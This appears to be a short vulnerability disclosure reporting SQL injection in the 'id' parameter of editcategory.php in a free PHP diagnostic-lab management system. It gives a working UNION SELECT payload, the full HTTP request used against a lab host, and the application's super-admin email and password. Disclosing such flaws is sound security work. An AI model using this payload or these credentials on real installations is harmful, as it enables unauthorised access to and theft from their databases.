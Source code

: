 # Online Diagnostic Lab Management System v1.0 by mayuri_k has SQL injection

BUG_Author: f0ward

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /diagnostic/editcategory.php?id=

Vulnerability location: /diagnostic/editcategory.php?id=, id

dbname = diagnostic

[+] Payload: /diagnostic/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /diagnostic/editcategory.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191399839-9a5222cb-699b-4d3b-a9b5-3bb8b574b245.png)
